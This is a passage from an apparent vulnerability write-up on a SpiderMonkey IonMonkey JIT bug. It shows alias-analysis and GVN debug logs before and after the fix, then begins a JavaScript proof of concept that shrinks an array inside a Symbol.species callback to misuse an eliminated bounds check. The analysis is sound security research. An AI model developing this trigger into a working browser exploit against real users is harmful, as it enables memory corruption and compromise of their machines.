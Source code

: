 ```text

[GVN]       Replacing InitializedLength33 with InitializedLength18
[GVN]       Discarding dead InitializedLength33

[GVN]       Replacing BoundsCheck34 with BoundsCheck19
[GVN]       Discarding dead BoundsCheck34

[GVN]       Replacing SpectreMaskIndex35 with SpectreMaskIndex20
[GVN]       Discarding dead SpectreMaskIndex35
```

Wow, we did it: from the alias analysis to the GVN and followed along the redundancy elimination.

Now if we have a look at the alias summary spew for a fixed version of Ion this is what we see:

```text
Patched:
[AliasSummaries] Dependency list for other passes:
[AliasSummaries]  slots13 marked depending on start6
[AliasSummaries]  loadslot14 marked depending on start6
[AliasSummaries]  elements17 marked depending on start6
[AliasSummaries]  initializedlength18 marked depending on start6
[AliasSummaries]  elements25 marked depending on start6
[AliasSummaries]  arraylength26 marked depending on start6
[AliasSummaries]  slots29 marked depending on arrayslice27
[AliasSummaries]  loadslot30 marked depending on arrayslice27
[AliasSummaries]  elements32 marked depending on arrayslice27
[AliasSummaries]  initializedlength33 marked depending on arrayslice27
```

In this case, the two regions of code have a different dependency; the first block depends on `start6` as above, but the second is now dependent on `arrayslice27`. This makes instructions not congruent and this is the very thing that prevents GVN from replacing the second region by the first one :).

## Reaching state of no unknowns

Now that we finally understand what is going on, let's keep pushing until we reach what I call *the state of no unknowns*. What I mean by that is simply to be able to explain every little detail of the PoC and be in full control of it.

And at the end of the day, there is no magic. It's just code and the truth is out there :).

At this point this is the PoC I am trying to demystify a bit more (if you want to follow along) this is the one:

```javascript
let Trigger = false;
let Arr = null;

function Target(Special, Idx, Value) {
    Arr[Idx] = 0x41414141;
    Special.slice();
    Arr[Idx] = Value;
}

class SoSpecial extends Array {
    static get [Symbol.species]() {
        return function() {
            if(!Trigger) {
                return;
            }

            Arr.length = 0;
            gc();
        };
```